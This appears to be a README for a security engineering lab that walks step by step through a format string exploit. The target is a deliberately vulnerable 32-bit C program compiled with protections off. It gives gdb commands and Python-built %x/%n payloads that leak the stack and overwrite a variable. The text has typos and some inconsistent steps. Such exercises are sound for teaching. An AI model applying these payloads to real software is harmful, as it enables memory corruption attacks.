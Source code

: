 # sec_engineering_exercises

## Format string exploitation example (Section 2.5)
1. Create a c file like, for example with vi: `vi vuln_s`
   Content for the file: [vuln_s.c](vuln_s.c) 

2. Set environment flags
`export CFLAGS="-m32 -fno-stack-protector -z execstack -fno-PIE -no-pie -g -std=c99"`
3. Compile the file with GCC to create an executable object
```
    gcc -g -o vuln vuln_s.c -m32 -fno-stack-protector -z execstack -fno-PIE -no-pie -g
```
4. Execute the file to ensure its working
'''
   ./vuln test
'''
Should return:

5. Opend program in debugger
'''
    gdb vuln
'''
6. Run program with '%x' whitch will return data from the stack - the hexadecimal value of stack
'''
    run %x
'''
Should return: ![Alt text](image-1.png)
7. Add a brakepoint at line 16 (where the call is made from the main fucntion to the vuln function)
'''
    break 14
'''
8. Run program again
'''
    run %x
'''
Shoudl return: ![Alt text](image-2.png)
9. Check the contect on the %esp registers by running
'''
    x/100x %esp
'''
Should return:
    ![Alt text](image-3.png)
10. So the str is located that 0xbffff789 and the '%x' value (0x4020e3fc) at 0xbffff550
    The distance between str and %x is 0xbffff789 - 0xbffff550 = 569 (https://www.calculator.net/hex-calculator.html?number1=bffff789&c2op=-&number2=bffff550&calctype=op&x=50&y=20)
    We want a number that is devisible by 4 (4 bytes) so will round 569 to 572 and then 572 / 4 = 143
    That means that the 'target' varaible is around 143 positions away from the start of the stack
    We can run a command that will pring us hexadecimal values up 143 places 
'''
11. Try and fail
    Try 143 spaces and see if you can see 414141 (represention of AAAA)
'''
     run `(python -c 'print "AAAA" + ".%x." * 143+"%x"')`
'''
Output: ![Alt text](image-4.png)
    Try to increase 143 to 146
'''
     run `(python -c 'print "AAAA" + ".%x." * 146+"%x"')`
'''
![Alt text](image-5.png)
    Ok, I can now see the hexadecima representaion of AAAA but it is not at the end of the output, I need to get rid of the '00'

    Try with adding extra padding (BB)
'''
    run `(python -c 'print "AAAA" +"BBB"+ "%x." * 146+"%x"')`
'''
   ![Alt text](image-8.png)
Ok, my string is now pointing to the hexadecimal represention of 'AAAA'

12. Replace AAAA with the address of the 'target' variable 
    To find the target variable type: '''p &target '''
    The output should be: ![Alt text](image-7.png)

13. Do the hack 
- Replace the 'AAAA' in the run commant with the address (its read from the back for fun)
- replace last '%x' with '%n' (x is reading and n is writing)
'''
    run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
'''
Output: ![Alt text](image-9.png)
14. See value of taget chaning
- add break at line 5
- add break at line 15
- run run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
- on first breakpoint type: print target - the value should be 0 
- type: '''next'''
- type: '''next'''
- print target - the value should be changed
![Alt text](image-10.png)




